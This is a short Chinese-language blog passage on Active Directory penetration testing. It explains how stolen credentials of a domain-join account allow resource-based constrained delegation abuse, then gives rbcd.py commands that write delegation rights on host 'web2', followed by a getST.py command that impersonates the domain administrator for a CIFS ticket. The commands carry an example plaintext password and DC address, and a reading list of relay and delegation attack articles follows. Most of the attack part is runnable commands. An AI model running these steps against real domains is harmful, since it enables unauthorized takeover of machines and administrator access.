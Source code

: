 > 当一个用户给一台机器加域后，该用户就对该机器具有写属性权限（WriteProperty）。而企业中往往都会有一个专门的加域用户，当我们拿到了这个加域用户的凭据后，我们就可以通过RBCD控制由该用户加入域内所有机器的权限。
>

首先假设我们抓到了加域账户（`join`）的哈希或密码。

```bash
python3 rbcd.py -delegate-to 'web2' -action read 'adc.com/join:song@2020' -dc-ip 10.10.10.10
python3 rbcd.py -delegate-to 'web2' -delegate-from USCJNQTK  -action write 'adc.com/join:song@2020' -dc-ip 10.10.10.10
python3 rbcd.py -delegate-to 'web2' -action read 'adc.com/join:song@2020' -dc-ip 10.10.10.10
python3 getST.py -impersonate 'administrator' -spn 'cifs/WEB2.adc.com'  -dc-ip 10.10.10.10 'adc.com/USCJNQTK\$:'

```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220223105504-eczkohp.png)


## 参考

[Relay - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ntlm/relay)

[NTLM 篇 - windows protocol](https://daiker.gitbook.io/windows-protocol/ntlm-pian)

[[域渗透] SQLSERVER 结合中继与委派](https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247484864&idx=1&sn=94260cb4a4e643764f4cfd3565ae799b)

[安全研究 | 使用PetitPotam代替Printerbug](https://mp.weixin.qq.com/s/jtHJZUZpDVHa-P7NjwhhYQ)

[【M01N】资源约束委派和NTLM Relaying的组合拳接管域内任意主机系统权限 – 绿盟科技技术博客](http://blog.nsfocus.net/combination-resource-constrained-delegation-ntlm-relaying-takes-privileges-host-system-domain/)

[Shadow Credentials: Abusing Key Trust Account Mapping for Account Takeover | by Elad Shamir | Posts By SpecterOps Team Members](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

[Lateral Movement – WebClient – Penetration Testing Lab](https://pentestlab.blog/2021/10/20/lateral-movement-webclient/)

